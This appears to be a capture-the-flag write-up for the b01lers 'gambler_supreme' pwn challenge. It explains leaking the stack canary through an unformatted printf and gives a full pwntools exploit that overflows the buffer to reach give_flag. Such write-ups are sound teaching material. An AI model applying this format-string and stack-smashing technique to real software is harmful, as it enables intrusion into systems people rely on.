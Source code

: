 ## Question 

The Casino, but with a cool new feature! 

You must create a flag.txt in the same folder as the binary for it to run. 
nc ctf.b01lers.com 9201 

Author: robotearthpizza 
Difficulty: Hard 

[gambler_supreme](gambler_supreme)

## Solution

The binary has NX, Stack, Canaries, and Full RELRO enabled. 

```
$ pwn checksec ./gambler_supreme'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

We see that the binary calls printf() on user-specified input without a format specifier. 

```
004016c7          printf("Your guess: ");
004016d8          printf(&var_38);
004016e2          putchar(0xa);
```

This allows us to leak the canary. On quick check, we can identify that it is at offset 13.

```
$ python3 pwn-gamblers_supreme.py BIN=./gambler_supreme LEAK | grep 00
    PIE:      No PIE (0x400000)
b'%13$p' b' 0xbfcd82868a531500\n'
b'%19$p' b' 0x1e7963000\n'
b'%28$p' b' 0x44009a0ed828d773\n'

$ gdb ./gambler_supreme 

pwndbg> r
Guess me a string of length 7 with lowercase letters: %13$p
Your guess: 0xd3813a8e16bdf900

pwndbg> canary
Canary    = 0xd3813a8e16bdf900 (may be incorrect on != glibc)
```

The binary also suffers from a buffer overflow. To succesfully exploit, we can cause the buffer overflow, overwrite the canary, and redirect return address to the ```give_flag``` function.

```python
from pwn import *
import sys

binary = args.BIN

context.terminal = ["tmux", "splitw", "-h"]
e = context.binary = ELF(binary)
r = ROP(e)

gs = '''
continue
'''


def find_canary():
    print("LEAK")
    for i in range(50):
        p = process(args.BIN, level="error")
        p.recvuntil(b'Enter a difficulty between 1 and 7 (inclusive): ')
        p.sendline(b'7')
        p.recvuntil(b'Guess me a string of length 7 with lowercase letters:')
        leak = b'%%%i$p' % i
        p.sendline(leak)
        p.recvuntil(b'Your guess:')
        print(leak, p.recvline())
        p.close()


def start():
    if args.LEAK:
        find_canary()
        sys.exit(0)

    if args.GDB:
        return gdb.debug(e.path, gdbscript=gs)
    elif args.REMOTE:
        return remote('ctf.b01lers.com', 9201)
    else:
        return process(e.path)


p = start()


def setup():
    p.recvuntil(b'Enter a difficulty between 1 and 7 (inclusive)')
    p.sendline(b'7')


def leak_canary():
    p.recvuntil(b'Guess me a string of length 7 with lowercase letters')
    p.sendline(b'%13$p')
    p.recvuntil(b'Your guess:')
    canary = int(p.recvline().strip(b'\n'), 16)
    return canary


def smash_stack(canary):
    p.recvline(b'Guess me a string of length 7 with lowercase letters:')
    pad = cyclic(40)
    chain = p64(canary)
    chain += p64(0xdeadbeef)
    chain += p64(e.sym['give_flag'])
    p.sendline(pad+chain)


setup()
canary = leak_canary()
smash_stack(canary)

p.interactive()
```
